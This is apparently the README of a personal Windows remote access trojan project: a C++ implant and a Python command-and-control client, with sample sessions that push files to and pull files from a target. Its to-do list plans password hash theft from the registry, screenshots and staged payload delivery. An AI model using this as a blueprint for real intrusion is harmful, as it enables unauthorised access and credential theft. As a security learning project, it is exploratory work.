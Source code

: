 # Windows-RAT
This repository will serve as an exploratory environment where I will rely primarily on C++ and Windows APIs to delve into the deeper aspects of Windows security management along with the varying components and architectures that come within the Windows environment.

## Repository Breakdown

### Pcaps
Packet captures between C2 and implant in a test environment for different commands. These help reinforce how interaction between our C2 and implant works for each command type. 

### RAT-DLL
All cpp *implant* side code that will, upon executing, open up a port on target and listen for commands sent by the user via Python CLI.

### RAT-Py
All py *client* side code that will, upon executing, open up a port on client and send commands to the implant via user input in the CLI.

### RAT-Exe
All cpp *implant* side code that will, upon executing, survey the target prior to loading our DLL that implements our functionality and opens communications back to client to accept commands.

## Assumptions
Current assumptions will include:
- The user has access to the target machine + network
- The user has the ability to or already has dropped .exe and .dll on target
- The user has remote shell/execution capabilities to launch payload on target
- Traditional antivirus programs have been disabled/mitigated

## Testing Environment
- Target machine is Window 10 Education version 10.0.19043 build 19043
- Python version for client is 3.7.16 (important for scapy use)

## Build Environment
- Visual Studio 2019 version 16.11.20

## Examples
### Startup
#### Required Args:
- ip - IP address of target
- port - port number our implant is listening on
#### Optional Args:
- N/A
```
pjsacchet@Patrick-Desktop:/mnt/c/Users/Admin/Projects/Personal/Windows-RAT/RAT-Py$ python3 RAT_Py_Main.py -ip 192.168.111.128 -port 1550
Reaching out to agent for connection establishment... 
Connected to agent at 192.168.111.128 on port 1550 
Please select from the following options:

            1) Write a file to a location on target

            2) Get a file from a specific location on target

            3) Exit

```

### Perform a *put file*
#### Required Args:
- filepath - Path (locally) to file with contents we are writing to target
- outfilepath - Remote file path where we want to write our file contents to 
#### Optional Args:
- overwrite - Whether or not to overwrite the file locally if it already exits (default is false)
```
> 1
Required params:

               -filepath - local path to file we are writing

               -outputfilepath - remote path we are writing to

Optional params:

               -overwrite - overwrite the file if it already exists (default: false)

> -filepath /mnt/c/Users/Admin/Projects/Personal/test.txt -outputfilepath C:\test2.txt
Sending command...
Sending file path...
Sending file contents...
Sending overwrite...
Sent data to implant; waiting on response code...
Successful file put!
Please select from the following options:

                1) Write a file to a location on target

                2) Get a file from a specific location on target

                0) Exit
```

### Perform a *get file*
#### Required Args:
- filepath - File path on target to the file we want to get 
- outfilepath - Local file path where we want to write our file contents to 
#### Optional Args:
- overwrite - Whether or not to overwrite the file locally if it already exits (default is false)
```
> 2
Required params:

                -filepath - path to file on target

                -outfilepath - file to write to locally
Optional params:
                - overwrite - overwrite the file locally if it already exists
                
> -filepath C:\test.txt -outfilepath /mnt/c/Users/Admin/Projects/Personal/Windows-RAT/TestFiles/test.txt
Successful file get! Getting file contents...
Successfully wrote file contents to /mnt/c/Users/Admin/Projects/Personal/Windows-RAT/TestFiles/test.txt
Please select from the following options:

            1) Write a file to a location on target

            2) Get a file from a specific location on target

            3) Exit
```

## TODO
### Exisiting Features: 
- Flesh out getfile functionality
  - Eventually add flags for offsets into file and chunksizes to send back to C2?
- Flesh out putfile functionality
  - Implement C2 OK messages to ensure it has the param or resend if need be
  
### New Features:
- Implement dir lists
- Implement password hash stealing via registry reads 
- Implement registry key read/write add/delete
- Implement get system info 
- Implement screenshot
- Implement COM stuff?
  - Prob better in separate project
- Implement remote cred auth (kerberos, ntlm etc.)
- Implement basic encryption? 
  - Give both implant and C2 same key or something
- Process list 
  - Return specific info about a particular process
- Have exe perform survey, report results back to C2 and have C2 send DLL payload for loading 
